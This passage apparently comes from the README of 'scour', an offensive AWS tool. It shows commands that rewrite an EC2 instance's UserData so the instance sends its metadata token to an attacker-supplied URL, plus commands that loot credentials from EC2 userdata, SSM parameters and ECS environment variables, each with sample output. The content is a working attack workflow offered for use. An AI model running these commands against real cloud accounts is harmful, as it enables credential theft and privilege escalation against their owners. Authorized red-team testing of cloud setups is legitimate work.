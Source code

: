 ## PrivilegeEscalation
![](https://github.com/grines/scour/blob/main/scour-privesc.gif)
* `Connected <apiuser/us-east-1> attack privesc UserData i-0f5604708c0b51429 http://url.to.capture.post.data` steal metadata credentials from EC2. Stop instance / Update userdata to post credentials to supplied url / Start instance (sends EC2 token to URL.)
```
[Sun May  9 06:10:16 2021]  INF  Stopping Instance i-0f5604708c0b51429 - State: stopped
[Sun May  9 06:10:46 2021]  INF  Modifying Instance Attribute UserData on i-0f5604708c0b51429
[Sun May  9 06:10:47 2021]  INF  Starting Instance i-0f5604708c0b51429 - State: pending
```

## CredentialDiscovery
![](https://github.com/grines/scour/blob/main/scour-creds.gif)
* `Connected <apiuser/us-east-1> attack creds UserData` loot credentials from EC2 userdata
```
UA Tracking: exec-env/yzaqX9HFvP/oL1oho99ZP/userdata-creds
+---------------------+------------------+-------------------------------------------------------------------------------+
|     INSTANCEID      |       RULE       |                                    FINDING                                    |
+---------------------+------------------+-------------------------------------------------------------------------------+
| i-0f5604708c0b51429 | Slack Webhook    | https://hooks.slack.com/services/T00000000/B00000000/XXXXXXXXXXXXXXXXXXXXXXXX |
| i-0f5604708c0b51429 | Generic Password | password=thisisapassword                                                      |
+---------------------+------------------+-------------------------------------------------------------------------------+
```
* `Connected <apiuser/us-east-1> attack creds SSM` loot credentials from Systems Manager
```
UA Tracking: exec-env/yzaqX9HFvP/FASongUCcG/ssm-params-creds
+------------+----------+----------------------+
| PARAM NAME | DATATYPE |        VALUE         |
+------------+----------+----------------------+
| Test       | text     | thismightbeapassword |
+------------+----------+----------------------+
```
* `Connected <apiuser/us-east-1> attack creds ECS` loot credentials from ECS
```
UA Tracking: exec-env/9tsJFrIPmw/rEGaMfF5AI/ecs-creds
+-------------+-------+------------+
| ENVARS NAME | VALUE | DEFINITION |
+-------------+-------+------------+
| Secret      | heere | sample-app |
+-------------+-------+------------+
```
## Disclaimers, and the AWS Acceptable Use Policy
